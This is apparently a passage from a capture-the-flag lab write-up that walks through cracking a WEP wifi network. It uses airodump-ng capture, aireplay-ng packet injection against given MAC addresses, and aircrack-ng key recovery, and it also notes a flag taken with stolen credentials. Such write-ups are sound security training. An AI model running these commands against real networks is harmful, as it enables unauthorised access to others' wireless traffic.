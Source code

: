 Illustration 25. Flag after stealing the free1 user's credentials.

## WEP

### 8. WEP cracking: What is the flag on the wifi-old AP website?

To crack the password of a WEP network, you have to use the airodump-ng and aircrack-ng tools. First, the packets #data are captured with airodump-ng:

```sh
airodump-ng -w WEP_capture --essid wifi-old -c 3 wlan0mon
```

![](image27.png)
Illustration 26. Capture airdump-ng.

To generate more traffic and capture more IVs, you can use the aireplay-ng tool:
```sh
aireplay-ng -3 -b F0:9F:C2:71:22:11 -h 1E:A8:5D:D1:1A:AF wlan0mon
```

After capturing a correct number of packets, the password is cracked with aircrack-ng:
```sh
aircrack-ng WEP_capture-01.cap
```

![](image28.png)
Illustration 27. Breaking the WEP password.

